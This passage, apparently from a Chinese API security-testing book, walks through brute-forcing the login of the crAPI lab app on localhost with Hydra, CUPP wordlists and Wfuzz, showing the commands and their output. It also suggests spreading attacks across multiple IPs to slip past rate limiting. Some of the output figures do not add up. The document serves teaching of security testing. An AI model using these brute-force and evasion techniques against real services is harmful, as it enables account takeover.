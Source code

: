 该工具成功找到了一个有效的用户名/密码组合：

```
[8888][http-post-form] host: localhost   login: admin@example.com   password: Admin!123
```

请记住，像 Hydra 使用的方法可能会被 API 后端本身检测到，或者更容易被其他保护层，如 WAF，检测到。该工具会生成成千上万甚至百万次请求发送到目标端点，这些请求可能会被启用了速率限制保护的 API 端点进行衡量和阻止。让我们检查一下，举个例子，crAPI 日志条目是如何显示的：

```
$ docker logs -f crapi-web
admin [07/Feb/2024:02:28:02 +0000] "POST /identity/api/auth/login HTTP/1.1" 400 0 "-" "Mozilla/4.0 (Hydra)"
```

为了规避这一点，你应该从不同的 IP 地址运行多个 Hydra 实例。可以启动多个容器，最好使用独立的网络段，或者创建一个具有伪造 IP 地址的受控环境。当然，切记不要在互联网上伪造有效的 IP 地址。我们是安全专家，不是罪犯。

其他有效的暴力破解工具包括 Medusa 和 ncracker。然而，在我为撰写本章所做的测试中，它们并不如 Hydra 成功，或者它们的性能没有 Hydra 好。运行这些类型的攻击时，千万不要忘记使用字典文件。将它们结合使用、混合搭配是接近某些 API 端点凭证的有效方式。

有一个非常有趣的工具叫做**常见用户密码分析器**（**CUPP**；[`github.com/Mebus/cupp`](https://github.com/Mebus/cupp)）。它可以帮助你从互联网上下载大型密码列表。它还有一个交互模式，会根据你回答的问题来生成针对目标/受害者的密码列表。一个优点是，这段 Python 代码不需要任何第三方模块，下载后你就可以直接使用。我们来对 crAPI 进行测试。我们将从 AlectoDB 下载默认的用户名和密码（目前已合并至[`github.com/yangbh/Hammer/tree/master/lib/cupp`](https://github.com/yangbh/Hammer/tree/master/lib/cupp)）。克隆 CUPP 的仓库，并输入以下命令：

```
$ python cupp.py -a  ___________    cupp.py!                 # Common       \                     # User        \   ,__,             # Passwords         \  (oo)____         # Profiler            (__)    )\                 ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]                            [ Mebus | https://github.com/Mebus/]
[+] Checking if alectodb is not present...
[+] Downloading alectodb.csv.gz from https://github.com/yangbh/... ... 

[+] Exporting to alectodb-usernames.txt and alectodb-passwords.txt [+] Done.
```

你刚刚获得了包含用户名和密码的两个文本文件。你将在*第六章*《错误处理与异常测试》中了解更多相关内容，但还有一个名为`Wfuzz`的工具（[`github.com/xmendez/wfuzz`](https://github.com/xmendez/wfuzz)），你可以通过多种方式安装它，帮助进行利用密码列表进行暴力破解攻击。我通过`pip`安装了它，并使用刚下载的用户名和密码对 crAPI 进行了测试。以下是结果：

```
$ wfuzz -z file,alectodb-usernames.txt -z file,alectodb-passwords.txt \
  -X POST -H "Content-Type: application/json" \
  -d '{"email":"FUZZ","password":"FUZ2Z"}' \
  http://localhost:8888/identity/api/auth/login
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: http://localhost:8888/identity/api/auth/login
Total requests: 915096
=====================================================================ID           Response   Lines    Word       Chars       Payload                                                                                                              =====================================================================
000000001:   400        0 L      118 W      1520 Ch     "123456"                                                                      000000042:   400        0 L      61 W       797 Ch      "2222"                                                                                                               000000041:   400        0 L      61 W       797 Ch      "21241036"                                                                                                           000000015:   400        0 L      61 W       797 Ch      "(unknown)"                                                                                                          000000003:   400        0 L      61 W       797 Ch      "!manage"                                                                                                            000000043:   400        0 L      61 W       797 Ch      "22222"
…Output omitted for brevity…
Total time: 0
Processed Requests: 1105854
Filtered Requests: 0
Requests/sec.: 0
```